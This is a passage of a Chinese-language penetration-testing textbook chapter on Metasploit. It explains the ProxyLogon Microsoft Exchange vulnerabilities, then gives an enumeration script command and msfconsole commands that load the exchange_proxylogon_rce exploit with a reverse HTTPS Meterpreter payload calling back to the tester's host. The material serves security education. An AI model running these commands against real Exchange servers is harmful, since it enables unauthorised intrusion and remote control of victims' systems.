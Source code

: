 此漏洞可以通过使用后渗透模块进一步探索。通过按 *Ctrl* + *Z* 在后台运行 Meterpreter。你应当收到 `Background session 1? [y/N] y enter y`。

当系统被攻击到这种程度时，便可以进行后续的利用活动（参见 *第十一章*，*目标行动与横向移动*，以及 *第十三章*，*命令与控制*，了解如何提升权限并保持对系统的访问）。

# 利用 MSF 攻击目标

MSF 对操作系统的漏洞和第三方应用程序的漏洞同样有效。我们将举例说明这两种情况。

## 使用简单反向 shell 的单一目标

在这个例子中，我们将利用两个不同的漏洞。第一个是著名的 ProxyLogon 漏洞，该漏洞被 Hafnium 威胁组织滥用，利用 Microsoft Exchange Server 在 2021 年 3 月发起攻击，造成了互联网风暴，并引发了全球范围内的多个网络安全事件和金融欺诈。主要被利用的四个漏洞是：

+   **CVE-2021-26855**：**服务器端请求伪造**（**SSRF**） – 攻击者可以远程提交特制的 HTTP 请求，且无需身份验证，服务器接受来自 TCP 端口 `443` 的不信任连接。

+   **CVE-2021-26857** – 微软 Exchange **统一消息服务**（**UMS**）中的不安全反序列化漏洞，允许攻击者以高权限的 SYSTEM 账户运行恶意代码。此漏洞可以通过 SSRF 或被窃取的凭证进行利用。

+   **CVE-2021-26858** 和 **CVE-2021-27065** – 这两个漏洞都涉及到任意文件写入漏洞，允许将文件写入指定目录。

在以下示例中，我们将演示如何结合利用 **CVE-2021-26855** 绕过身份验证并冒充管理员账户，以及利用 **CVE-2021-27065** 写入任意文件并通过载荷提供远程代码执行权限。

作为第一步，攻击者需要确保目标上的 Microsoft Exchange Server 是暴露的，并枚举出所有电子邮件地址，以执行成功的攻击。测试者可以利用 Python ProxyShell 枚举脚本列出所有连接到 Exchange 服务器的用户。此脚本可以在[`github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2010/ProxyShell-enumerate.py`](https://github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2010/ProxyShell-enumerate.py)上找到。

攻击者可以运行`python3 proxyshell-enumerate.py –u <Exchange server IP>`。该脚本在目标上的输出应该会显示 Exchange 服务器中的所有电子邮件地址，如在*图 10.11*中所示：

![](img/B17765_10_11.png)

图 10.11：Exchange 服务器上用户电子邮件地址的枚举

要启动此攻击，第一步是通过运行以下命令来打开 MSF，如*图 10.12*所示：

```
sudo msfconsole 
search proxylogon
use exploit/windows/http/exchange_proxylogon_rce
set payload windows/meterpreter/reverse_https
set rhosts <your Exchange server IP>
set email <administrator email id>
set lhost <Your Kali IP>
set lport <You kali port> 
```

